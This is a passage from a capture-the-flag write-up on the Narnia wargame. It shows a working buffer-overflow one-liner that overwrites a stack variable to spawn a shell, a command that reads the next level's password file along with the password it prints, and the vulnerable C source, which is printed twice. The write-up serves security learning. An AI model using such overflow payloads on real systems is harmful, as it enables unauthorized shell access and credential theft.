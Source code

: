 {% highlight bash %}
narnia0@narnia\:/narnia$ (python -c "print 'A'*20+'\\xef\\xbe\\xad\\xde'"\;cat -)|./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!  
Here is your chance\: buf\: AAAAAAAAAAAAAAAAAAAAﾭ  
val\: 0xdeadbeef  
whoami  
narnia1  
cat /etc/narnia_pass/narnia1  
efeidiedae
{% endhighlight %}

Commands are successfully being executed inside the /bin/sh shell

Looking at the source code of the program, we can confirm that the aforementioned analysis of the binary was correct\:

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
  
int main(){   long val=0x41414141\;   char buf[20]\;   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\\n")\;   printf("Here is your chance\: ")\;   scanf("%24s",&buf)\;   printf("buf\: %s\\n",buf)\;   printf("val\: 0x%08x\\n",val)\;   if(val==0xdeadbeef){  
       setreuid(geteuid(),geteuid())\;  
       system("/bin/sh")\;  
   }   else {       printf("WAY OFF!!!!\\n")\;       exit(1)\;  
   }   return 0\;  
}
{% endhighlight %}

{% highlight c %}
### Source Code

#include <stdio.h>  
#include <stdlib.h>  
  
int main(){   long val=0x41414141\;   char buf[20]\;   printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\\n")\;   printf("Here is your chance\: ")\;   scanf("%24s",&buf)\;   printf("buf\: %s\\n",buf)\;   printf("val\: 0x%08x\\n",val)\;   if(val==0xdeadbeef){  
       setreuid(geteuid(),geteuid())\;  
       system("/bin/sh")\;  
   }   else {       printf("WAY OFF!!!!\\n")\;       exit(1)\;  
   }   return 0\;  
}
{% endhighlight %}

Narnia 1
--------

Now with a shell as the narnia1 user, we have the necessary permissions to execute the next binary\:

{% highlight bash %}
narnia1@narnia\:/narnia$ ./narnia1  
Give me something to execute at the env-variable EGG
{% endhighlight %}
